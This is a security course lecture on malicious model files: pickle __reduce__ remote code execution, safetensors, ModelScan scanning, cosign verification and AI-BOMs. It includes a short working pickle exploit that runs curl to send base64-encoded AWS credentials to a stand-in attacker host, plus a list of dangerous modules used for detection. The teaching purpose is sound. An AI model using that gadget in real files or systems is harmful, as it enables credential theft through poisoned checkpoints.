

# Lecture 13: Model & Data Supply-Chain Security

> Weeks 1 and 2 assumed the attacker sends *text* — a poisoned document, a jailbreak prompt. This lecture covers a scarier attacker: one who ships you a *file*. When you run `AutoModel.from_pretrained("some-org/cool-7b")` or `torch.load("checkpoint.pt")`, you are not "loading weights." For a huge fraction of the model files on the internet, you are executing arbitrary Python the file's author chose, on your machine, with your permissions, before a single token is generated. A model download is code execution. This lecture explains *why* — the pickle format's `__reduce__` mechanism turns "deserialize a tensor" into "run this" — then teaches the three controls that turn a hostile artifact from a silent breach into a caught, blocked, logged event: standardize on **safetensors** (data-only, no code path), **scan** anything you must accept in a legacy format with **ModelScan**, and **verify** integrity + origin with **Sigstore/cosign** plus an **AI-BOM** recording what you shipped. After this you can explain the pickle RCE from first principles, run ModelScan against a deliberately-unsafe checkpoint and read its opcode findings, verify a detached cosign signature on a safetensors file, and produce an `ai-bom.json` that survives an audit.

**Prerequisites:** Lecture 1 (trust boundaries), Lecture 5 (OWASP LLM Top 10 IDs), Phase 10 (model serving, how checkpoints get loaded into a runtime), basic comfort with Python objects and CI · **Reading time:** ~32 min · **Part of:** Phase 11 (AI Safety, Security, Guardrails & Governance), Week 3

---

## The core idea (plain language)

Everything else in this phase defends the **runtime**: text goes in, you inspect it, you block it. Supply-chain security defends the **build and load path** — the moment weights, tokenizers, adapters, and datasets enter your system. The threat is different in kind. Prompt injection needs your agent to *do* something with attacker text. A malicious checkpoint needs nothing from you except that you *load* it, which is the one thing you are guaranteed to do.

The headline fact, stated bluntly:

> **A pickle-based checkpoint (`.bin`, `.pt`, `.ckpt`, `.pkl`, older `.pth`) can execute arbitrary code the instant you load it. Loading an untrusted pickle is remote code execution (RCE), full stop. No jailbreak, no clever prompt — just `torch.load(untrusted_file)`.**

The fix is not "be careful." The fix is architectural, and it mirrors the quarantine pattern from Lecture 6: **remove the code-execution channel entirely by using a format that has no code-execution channel.** That format is **safetensors** — a layout that stores raw tensor bytes plus a JSON header of shapes and dtypes, and *nothing that can call a function*. When you standardize on safetensors, "load a model" goes back to meaning "read numbers into memory," which is what you thought it meant all along.

Three controls, in priority order:

1. **Prefer safetensors.** Data-only format → no RCE surface. This is the default, not the exception.
2. **Scan the exceptions with ModelScan.** Some artifacts only exist as pickle (an old fine-tune, a research checkpoint). Before loading, scan it for dangerous opcodes and reject or quarantine on a finding.
3. **Verify integrity and provenance with cosign + an AI-BOM.** A safe *format* doesn't tell you the file is the one the publisher signed, or that its dataset was clean. Signatures prove "this is the exact artifact org X published"; the AI-BOM records model id, license, source, hash, and dataset provenance so you can answer "what is actually running in prod?" months later.

This maps cleanly onto OWASP: **LLM03 Supply Chain** (compromised or malicious artifacts), and **LLM04 Data & Model Poisoning** / **LLM05 Improper Output Handling** for the dataset-provenance and downstream-trust angles.

---

## How it actually works (mechanism, from first principles)

### Why pickle is code, not data

Python's `pickle` is a *serialization* format, but it was designed to reconstruct arbitrary Python objects — including objects that need custom logic to rebuild. To support that, the pickle byte stream is not a passive data structure; it is a **program for a tiny stack machine**. The unpickler reads *opcodes* one at a time and executes them: push this string, build this tuple, look up this global name, *call this callable with these args*.

The dangerous opcodes are `GLOBAL` / `STACK_GLOBAL` (resolve a module + attribute, e.g. `os.system`) and `REDUCE` (call the thing on the stack with the argument tuple on the stack). Any object can hook into this by defining `__reduce__`, which tells pickle "to rebuild me, call *this* function with *these* args." The unpickler obeys — during `load`, before you get your object back.

Here is the entire exploit, and it is genuinely this short:

```python
import pickle, os

class Evil:
    def __reduce__(self):
        # returns (callable, args) -> unpickler will CALL callable(*args)
        return (os.system, ("curl http://attacker/steal?d=$(cat ~/.aws/credentials | base64)",))

payload = pickle.dumps(Evil())        # attacker builds this
# ... ships it as "model.bin" ...
pickle.loads(payload)                 # victim: RCE fires HERE, on load
```

The victim never called `os.system`. They called `pickle.loads` (which is what `torch.load` calls under the hood, which is what `from_pretrained` calls for a `.bin`). The payload can be *appended* to a real, working checkpoint — the model loads fine *and* the shell command runs, so nothing looks wrong. That's the nightmare property: **a poisoned pickle can be functionally identical to a clean one at inference time.**



`torch.load(..., weights_only=True)` (default in PyTorch 2.6+) restricts the allowed globals to a safe list and blocks most of this — a real improvement — but (a) plenty of code and older versions still pass `weights_only=False`, (b) the allowlist has had bypasses, and (c) it doesn't help `.bin` files loaded through `transformers` older paths. Treat `weights_only=True` as defense-in-depth, **not** as a reason to keep trusting pickle from untrusted sources.

### Why safetensors has no code path — by construction

A safetensors file is deliberately boring:

```
┌──────────────┬───────────────────────────────┬──────────────────────────┐
│ 8 bytes      │ JSON header (N bytes)          │ raw tensor bytes         │
│ header size  │ {"weight.0": {"dtype":"F16",   │ <contiguous little-endian│
│ (u64 LE = N) │   "shape":[4096,4096],         │  tensor data, back-to-   │
│              │   "data_offsets":[0,33554432]},│  back, no framing>       │
│              │  "__metadata__": {...}}        │                          │
└──────────────┴───────────────────────────────┴──────────────────────────┘
```

Loading is: read 8 bytes → get header length → parse JSON → for each tensor, slice `[offset_start:offset_end]` out of the byte blob and interpret it as the declared dtype/shape. There is **no opcode stream, no `GLOBAL`, no `REDUCE`, no callable resolution** — the parser literally has no code path that invokes a function named in the file. The header is pure metadata; the payload is pure numbers. A malicious safetensors file can at worst give you *wrong numbers* or a malformed header (which a correct parser rejects), never *arbitrary execution*. It also supports **zero-copy / mmap** loading, so it's usually *faster* than pickle to load — the security win comes with a performance win, which is why the whole ecosystem moved.

### What ModelScan actually does

You cannot always avoid pickle — a vendor ships a `.bin`, a research repo has only a `.ckpt`. **ModelScan** (Protect AI) lets you inspect the artifact *without executing it*. It parses the pickle opcode stream statically (it does **not** unpickle — that would be the very thing you're avoiding) and flags dangerous operators: references to `os`, `subprocess`, `posix`, `builtins.eval`/`exec`, `socket`, `webbrowser`, `nt`, `runpy`, etc. Findings are severity-ranked (e.g. `CRITICAL` for `os.system`, `MEDIUM`/`HIGH` for suspicious-but-plausible imports). It supports pickle, PyTorch, TensorFlow SavedModel/HDF5 (Keras Lambda layers are a code path too), and more.

Mechanistically: it walks opcodes the way a disassembler walks bytecode, builds the set of `(module, function)` globals the stream *would* resolve, and matches them against a blocklist. Because it's static, scanning is safe and fast, but it is a **denylist of known-bad**, so a novel gadget can slip past. That's why safetensors-by-default beats scan-and-hope: scanning is your control for the artifacts you're *forced* to accept, not a license to keep loading pickle everywhere.

### What cosign proves that a scan cannot

A clean scan says "no known-bad opcodes." It says nothing about *who made this file* or *whether it changed in transit*. That's what **Sigstore/cosign** is for. `cosign` produces a cryptographic signature over the artifact's bytes; `cosign verify-blob` checks that signature against a public key (or, in keyless mode, an OIDC identity + the Rekor transparency log). If one byte of the file changed after signing, verification fails.

The engineering shape you'll use in the lab is **key-based, detached-signature** verification of a plain file (a "blob"):

```bash
cosign verify-blob \
  --key cosign.pub \
  --signature model.safetensors.sig \
  model.safetensors
# -> "Verified OK"  (exit 0)   or   error (exit non-zero)
```

- `--key cosign.pub` — the publisher's public key you trust (pinned in your repo).
- `--signature model.safetensors.sig` — the *detached* signature file, distributed alongside the model.
- the final arg — the artifact whose bytes must match what was signed.

`cosign verify` returns exit code 0 on success and non-zero on failure, which is exactly what a CI gate needs. Safetensors + cosign together give you the full property: **"this file cannot execute code (format) AND it is byte-for-byte the file org X signed (provenance)."**

### The AI-BOM: your inventory of what's actually running

A Bill of Materials for software (SBOM) answers "what dependencies are in this build?" An **AI-BOM** answers the same for models and data. It's a small JSON document you generate and commit, capturing at minimum:

```json
{
  "model": {
    "id": "meta-llama/Llama-3.1-8B-Instruct",
    "source": "https://huggingface.co/meta-llama/Llama-3.1-8B-Instruct",
    "revision": "0e9e39f249a16976918f6564b8830bc894c89659",
    "format": "safetensors",
    "sha256": "b1946ac92492d2347c6235b4d2611184...",
    "license": "llama3.1-community",
    "signature": { "verified": true, "tool": "cosign", "key": "keys/meta.pub" }
  },
  "datasets": [
    {
      "id": "internal/support-tickets-2025q2",
      "source": "s3://ml-data/support/2025q2/",
      "sha256": "3f79bb7b435b05321651daefd374cd...",
      "provenance": "internal, PII-redacted (Presidio), consent basis: contract",
      "license": "internal-only"
    }
  ],
  "generated_at": "2026-07-09T00:00:00Z"
}
```

The hash is the load-bearing field: it lets you *prove* six months later that the file in prod is the file you vetted (recompute `sha256`, compare). License catches the "we can't actually ship this commercially" landmine. Dataset provenance is your LLM04/LLM05 story — "was the training/RAG data poisoned or improperly sourced?" is unanswerable without it.

---

## Worked example

You're onboarding a fine-tune a partner emailed you as `partner-ft.bin` (pickle). Walk the gate.

**1. Format check.** It's `.bin` — pickle, not safetensors. Do **not** `torch.load` it. It goes to the quarantine path.

**2. Scan.**

```bash
$ modelscan -p ./incoming/partner-ft.bin
--- Summary ---
Total Issues: 2
Total Issues By Severity:
    CRITICAL: 1     HIGH: 0     MEDIUM: 1     LOW: 0
--- Issues by Severity ---
CRITICAL  partner-ft.bin:  operator 'posix.system' used  (module: os, function: system)
MEDIUM    partner-ft.bin:  operator 'builtins.exec' referenced
```

The `posix.system` finding is the same `__reduce__` gadget from the mechanism section. Verdict: **reject.** Loading this would have run a shell command as your service account. Log the finding, notify the partner, do not proceed. (Had it come back clean, you'd still convert to safetensors before use and treat "clean scan" as necessary-not-sufficient.)

**2b. Cost framing.** The scan took ~1 second. The alternative — loading it — costs you a breach: on a serving box, the attacker's `__reduce__` runs with the container's network access and mounted secrets. On a laptop, it runs as *you*, with your SSH keys and cloud creds. A 1-second scan vs. an incident-response week is the entire ROI argument.

**3. The good path.** The vetted base model ships as safetensors with a detached signature:

```bash
$ sha256sum llama-3.1-8b.safetensors
b1946ac92492d2347c6235b4d2611184...  llama-3.1-8b.safetensors

$ cosign verify-blob --key keys/vendor.pub \
    --signature llama-3.1-8b.safetensors.sig \
    llama-3.1-8b.safetensors
Verified OK
```

Exit 0 → record `sha256` + `"signature.verified": true` in `ai-bom.json`, and let the load proceed. If someone had tampered with even one byte (say, swapped a router-weight tensor to bias outputs), the hash would differ and `verify-blob` would exit non-zero, and your gate would `exit 1` before the model ever hit a GPU.

**4. Negative test (prove the gate works).** Flip one byte of the safetensors file and re-run: `Verified OK` becomes an error, exit non-zero. That's your evidence the control is live, not decorative — the same discipline as demonstrating a guardrail *blocks* in Week 2.

---

## How it shows up in production

- **The silent breach.** The worst supply-chain compromises produce *no symptoms*. A poisoned pickle exfiltrates on load and the model then serves normally. You find out from the attacker's egress, an EDR alert, or a breach notification — never from model quality. This is why the control has to sit at the *load boundary*, in CI, not "we'll notice if something's weird."
- **Hugging Face is a mixed-trust registry.** HF scans uploads and warns on unsafe pickle, and most popular models now ship safetensors. But the platform hosts *anyone's* artifacts, typosquatted repo names exist, and a repo can contain *both* a safe `.safetensors` and a malicious `.bin` — and your loader might pick the `.bin`. Pin the **revision** (commit hash, not a mutable tag), prefer the safetensors file explicitly, and don't let `from_pretrained` fall back to pickle silently.
- **Latency and load-time.** Safetensors' mmap/zero-copy load is typically *faster* than unpickling large checkpoints and uses less peak RAM. So the secure choice usually *improves* cold-start times on your serving fleet — a rare case where security and performance point the same way.
- **The "we can't ship this" license bomb.** Teams discover at launch that a model or dataset forbids commercial use or has a restrictive derivative clause. The AI-BOM's `license` field surfaces this at ingest, not at legal review the week before launch.
- **CI cost of the gate.** ModelScan on a multi-GB checkpoint is seconds; cosign verify is milliseconds-to-seconds; hashing is I/O-bound. The whole supply-chain gate adds well under a minute to CI for typical model sizes — cheap enough to run on every artifact bump. (Approximate; scales with file size and disk speed.)
- **Adapters and tokenizers count too.** A LoRA adapter, a custom tokenizer with `trust_remote_code=True`, or a pickled preprocessing object are all load-time code paths. `trust_remote_code=True` executes a repo's *Python* on load — arguably a bigger RCE surface than the weights. Treat every loaded artifact as in-scope, not just the base weights.

---

## Common misconceptions & failure modes

- **"It's just weights, it can't run code."** The single most dangerous belief in this lecture. Pickle *is* a program. Loading is executing.
- **"`weights_only=True` fixed it, so pickle is fine now."** It's a strong mitigation with a restricted global allowlist, but it has had bypasses, doesn't cover every load path, and depends on caller discipline and PyTorch version. Use it, but don't let it justify accepting untrusted pickle.
- **"ModelScan is clean, so it's safe to load."** ModelScan is a *denylist* of known-bad operators. A novel gadget or an obfuscated import can pass. Clean scan = "no known-bad found," not "proven safe." Convert to safetensors anyway.
- **"cosign proves the model is safe."** A signature proves *origin and integrity* — "org X made exactly this file." It says nothing about whether org X's file is malicious or their training data was poisoned. Signing a poisoned model produces a perfectly valid signature.
- **"safetensors means I can skip signatures."** No. Safe *format* ≠ correct *contents*. Someone can hand you a safetensors file with subtly biased or backdoored weights. You still need provenance (cosign) and inventory (AI-BOM). The three controls are complementary, not substitutes.
- **"The hash in the AI-BOM is optional documentation."** It's the one field that lets you *verify* prod matches what you vetted. A BOM without hashes is a rumor.
- **Forgetting datasets entirely.** LLM04 poisoning enters through *data*. An AI-BOM that lists the model but not the datasets, their sources, and their provenance can't answer the poisoning question at all.

---

## Rules of thumb / cheat sheet

- **Default to safetensors. Always.** Treat `.bin`/`.pt`/`.ckpt`/`.pkl` from any non-first-party source as untrusted code until proven otherwise.
- **Never `torch.load` / `pickle.loads` an untrusted file.** If you must inspect a pickle, `modelscan` it — never unpickle it to "check."
- **Convert-then-use.** For a required legacy artifact: scan → (if clean) load in an *isolated, egress-blocked* sandbox → re-save as safetensors → use the safetensors copy from then on.
- **Pin the revision (commit hash), not the tag.** Tags are mutable; a repo can be updated under you.
- **`trust_remote_code=True` is an RCE flag.** Only with pinned revision + audited source. Prefer models that don't need it.
- **cosign verify in CI, gate on exit code.** `verify-blob --key <pub> --signature <sig> <file>`; non-zero → fail the build.
- **Every artifact bump updates the AI-BOM.** Model + all datasets: id, source, revision, `sha256`, license, provenance, signature status.
- **Re-hash in prod and compare to the BOM.** Detects tampering between build and deploy.
- **Map it:** malicious/compromised artifact → **LLM03**; poisoned/improperly-sourced data or weights → **LLM04/LLM05**.

---

## Connect to the lab

Week 3, Step 4 is exactly this lecture in code: run `modelscan -p ./models/some_model.bin` against a **deliberately-unsafe pickle** (build one with the `__reduce__` gadget above) and confirm it flags the dangerous operator; run `cosign verify-blob --key cosign.pub --signature model.sig model.safetensors` and confirm it passes on the signed safetensors file; and write `supplychain/ai-bom.json` capturing model id, license, source, hash, and dataset provenance. In `supplychain/scan.sh`, document *why* you standardize on safetensors (the pickle-RCE mechanism) so the reasoning lives next to the check. The Definition of Done — "`modelscan` flags a deliberately-unsafe pickle; `cosign verify` passes on a signed safetensors file" — is a direct application of the three controls here, and it feeds the Week 3 `deploy-gate.py`.

---

## Going deeper (optional)

- **safetensors** — format spec and rationale: the official docs on the Hugging Face site (`huggingface.co/docs/safetensors`) and the `huggingface/safetensors` GitHub repo. Read the README's threat-model section on *why* it exists.
- **ModelScan** — `github.com/protectai/modelscan`. Read the README's list of scanned formats and severity model; Protect AI has writeups on pickle-based model attacks (search "Protect AI ModelScan pickle attack").
- **Python `pickle` docs** — the official Python docs page for `pickle` opens with a boxed security warning ("never unpickle data from an untrusted source") and documents `__reduce__`. Read it once, first-hand.
- **Sigstore / cosign** — `docs.sigstore.dev` and `github.com/sigstore/cosign`. Look specifically at `verify-blob`, keyless signing, and the Rekor transparency log.
- **OWASP Top 10 for LLM Apps (2025)** — `genai.owasp.org`; read **LLM03 Supply Chain**, **LLM04 Data & Model Poisoning**, **LLM05 Improper Output Handling** by ID.
- **PyTorch `torch.load` docs** — read the current security notes on `weights_only` (search "pytorch torch.load weights_only security").
- **Sleight-of-hand attacks** — search "sleepy pickle attack" and "nullifAI Hugging Face malicious models" for real-world malicious-model incidents and why format alone isn't the whole story.
- Search queries: "pickle __reduce__ RCE model checkpoint", "convert pytorch bin to safetensors", "cosign verify-blob detached signature example", "AI-BOM CycloneDX ML" (for a standardized BOM schema).

---

## Check yourself

1. Explain, in terms of pickle opcodes, why `torch.load` on an untrusted `.bin` is remote code execution. Which two opcodes / which dunder method make it possible?
2. What structural property of the safetensors format means it *cannot* execute code on load — and why does that property also tend to make loading faster?
3. A colleague runs ModelScan on a downloaded checkpoint, gets zero findings, and says "it's safe to load." Give two reasons that conclusion is not fully justified.
4. `cosign verify-blob` passes on a model file. Name one important security property this proves and one it does *not* prove.
5. Your AI-BOM lists the model's id, source, and license but no hash and no datasets. Which two questions can you now *not* answer, and which OWASP LLM IDs do those gaps map to?
6. You're forced to accept a `.ckpt` that only exists as pickle. Describe the safe convert-then-use workflow, including where isolation and re-signing fit.

### Answer key

1. The pickle byte stream is a program for a stack machine; the unpickler executes its opcodes during `load`. `GLOBAL`/`STACK_GLOBAL` resolves a module attribute (e.g. `os.system`) and `REDUCE` calls it with a supplied argument tuple. Any object's `__reduce__` method can return `(callable, args)`, instructing the unpickler to call `callable(*args)` — so deserialization becomes arbitrary code execution, before you ever get the object back. `torch.load` calls `pickle` under the hood, so it inherits this.

2. A safetensors file is a fixed layout: an 8-byte header length, a JSON header of names/dtypes/shapes/offsets, and a contiguous blob of raw tensor bytes. The parser only reads a length, parses JSON metadata, and slices byte ranges — there is no opcode stream and no mechanism to resolve or call a named function, so there is no code path to exploit. The same simplicity enables zero-copy / mmap loading (no object graph to reconstruct), which is typically faster and lower-peak-RAM than unpickling.

3. (a) ModelScan is a static *denylist* of known-dangerous operators; a novel or obfuscated gadget can pass undetected. (b) A clean scan says nothing about whether the *weights* are backdoored/poisoned or whether the file is even the one the publisher intended (no integrity/provenance check). "No known-bad found" ≠ "proven safe" — you should still prefer/convert to safetensors and verify a signature.

4. Proves: *integrity + origin* — the file is byte-for-byte identical to what the holder of that key signed, so it wasn't tampered with in transit and came from the expected publisher. Does not prove: that the file's *contents* are benign — a poisoned or malicious model can be signed and will verify perfectly. Signature = authenticity, not safety.

5. Without a hash, you cannot verify that the artifact running in production is the same file you vetted (no tamper/drift check). Without datasets + provenance, you cannot answer whether the training/RAG data was poisoned or improperly/illegitimately sourced. The missing hash relates to **LLM03 (Supply Chain)** integrity; the missing dataset provenance maps to **LLM04 (Data & Model Poisoning)** / **LLM05 (Improper Output Handling)**.

6. Never unpickle to "inspect." First `modelscan` the file statically; if it flags dangerous operators, reject. If clean, load it *only* inside an isolated, network-egress-blocked sandbox (shared-kernel container is weak — prefer gVisor/microVM per Week 2) so any hidden gadget can't reach the network or secrets, then immediately re-save the weights as **safetensors**. Discard the pickle; from then on use (and, ideally, re-sign with cosign so you have provenance on) the safetensors copy, and record its id/source/hash/license in the AI-BOM.
